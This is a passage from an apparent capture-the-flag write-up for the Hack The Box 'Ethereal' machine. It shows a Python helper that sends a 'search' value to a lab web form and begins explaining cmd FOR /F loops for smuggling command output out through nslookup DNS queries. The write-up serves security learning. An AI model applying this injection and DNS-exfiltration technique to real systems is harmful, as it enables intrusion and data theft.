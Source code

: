 ```

__VIEWSTATE=%2FwEPDwULLTE0OTYxODU3NjhkZDq%2BFRgU9epds8vdzQCOhWx4WFqAM2hNIbgH2RI3jXSz&__VIEWSTATEGENERATOR=CA0B0334&__EVENTVALIDATION=%2FwEdAAOFr9TrHWt%2B2bA4FwNr3j1Y4CgZUgk3s462EToPmqUw3OKvLNdlnDJuHW3p%2B9jPAN9kKYZ9rDh9NVw3pnVFLEyhi%2FzP9ndEQ4bcuvdL5zBCfg%3D%3D&search=127.0.0.1&ctl02=

```

I just need to pass in a `search` parameter.

```

 43     def send_post(self, search):
 44         data = {'__VIEWSTATE': self.view_state,
 45                 '__VIEWSTATEGENERATOR': self.view_state_gen,
 46                 '__EVENTVALIDATION': self.event_val,
 47                 'search': search,
 48                 'ctl02': ''}
 49         resp = requests.post('http://ethereal.htb:8080/',
 50                              proxies=self.proxy,
 51                              data = data,
 52                              auth = self.auth)

```

I can test this by adding this to the default command:

```

 55     def default(self, args):
 56         print(f"Entered: {args}")
 57         self.send_post(search='127.0.0.1')

```

I’ll enter any command, and then check burp to make sure that the request worked, and that I see `Connection to host successful` in the response.

## Command Output to nslookup

### Command For Loops

In Ethereal, I was able to get `nslookup` to query me for a domain I gave it. Now I want to run a command and have the output encoded as a domain that can be queried. To do that, I’ll need to understand how `for` loops work in cmd, specifically with `/F`, which is used to loop over results of commands ([this is a good reference](https://ss64.com/nt/for_cmd.html)).

It will take the form:

```

FOR /F ["options"] %%parameter IN ('command_to_process') DO command

```

I’m going to define the tokens as 1-26, and then let the parameter be `%a` so I can use lowercase letters to represent the values.
